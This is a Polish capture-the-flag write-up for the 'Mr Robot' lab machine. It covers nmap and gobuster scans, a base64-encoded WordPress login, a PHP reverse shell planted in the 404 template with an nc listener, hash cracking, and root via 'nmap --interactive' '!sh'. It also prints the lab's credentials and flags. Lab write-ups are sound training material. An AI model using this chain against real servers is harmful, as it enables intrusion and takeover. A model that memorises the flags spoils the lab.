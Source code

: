 # Mr Robot
IP=10.10.129

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.129.64
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-04 07:04 EDT
Nmap scan report for 10.10.129.64
Host is up (0.082s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.61 seconds
```

Zostały wykryte 3 porty.

## Skanowanie

### Port 80
Rozpoczynamy od sprawdzenia portu 80:

![80](img/80.JPG)

Strona nie zawiera nic ciekawego, przechodzimy do enumeracji katalogów narzędziem gobuster:

```
gobuster dir --url http://10.10.129.64/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

![Gobuster](img/Gobuster.JPG)

W katalogu robots.txt znajdujemy lokalizację pierwszej flagi oraz plik, który po pobraniu okazuje się być listą słów:

![Robots](img/Robots.JPG)

Odczytujemy pierwszą flagę:

![Flag1](img/Flag1.JPG)

```
073403c8a58a1f80d943455fb30724b9
```

W znalezionym katalogu "/license" znajdujemy login i hasło w formacie base64:

![License](img/License.JPG)

```
ZWxsaW90OkVSMjgtMDY1Mgo=
```

Dekodujemy dane za pomocą [CyberChef'a](https://gchq.github.io/CyberChef/) 

![Chef](img/Chef.JPG)

```
elliot:ER28-0652
```

Przechodzimy do podstrony "login" i logujemy się do aplikacji WordPress'a:

![WP](img/WP.JPG)

## Eksploitacja

Udajemy się kolejno do: Appearance -> Editor -> 404 Template:

![404](img/404.JPG)

Podmieniamy kod php, który wykona się podczas błędu 404, czyli błędu braku strony, na nasz kod [reverse shell'a](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php):

![Shell](img/Shell.JPG)

Po zmianie adresu ip i portu w skrypcie ustawiamy nasłuchiwanie komendą:

```
nc -lvnp [PORT]
```

Wywołujemy błąd braku strony wchodząc na stronę, która nie istnieje:

![Page](img/Page.JPG)

Uzyskujemy dostęp do serwera jako użytkownik deamon:

![Deamon](img/Deamon.JPG)

W katalogu domowym użytkownika robot znajdujemy hash hasła:

![Hash](img/Hash.JPG)

Łamiemy go na stronie [CrackStation](https://crackstation.net/):

![Crack](img/Crack.JPG)

```
robot:abcdefghijklmnopqrstuvwxyz
```

Logujemy się na użytkownika robot:

![Robot](img/Robot.JPG)

Odczytujemy drugą flagę:

![Flag2](img/Flag2.JPG)

```
822c73956184f694993bede3eb39f959
```

## Zwiększenie poziomu uprawnień

Wgrywamy program [Linpeas](https://github.com/peass-ng/PEASS-ng/releases/tag/20240804-31b931f7), nadajemy mu uprawnienia do wykonywania i uruchamiamy go:

![Nmap](img/Nmap.JPG)

Widzimy, że na 95% możemy wykorzystać program nmap do podniesienia swoich uprawnień. Przechodzimy na stronę [gtfobins](https://gtfobins.github.io/gtfobins/nmap/) i szukamy exploit'a:

![Exploit](img/Exploit.JPG)

Otwieramy interfejs nmap'a komedną:

```
nmap --interactive
```

Następnie wpisujemy:

```
!sh
```

Otrzymujemy uprawnienia root'a:

![Root](img/Root.JPG)

W katalogu domowym użytkownika root znajdujemy trzecią flagę:

![Flag3](img/Flag3.JPG)

```
04787ddef27c3dee1ee161b21670b4e4
```

Do zobaczenia na kolejnych CTF-ach!

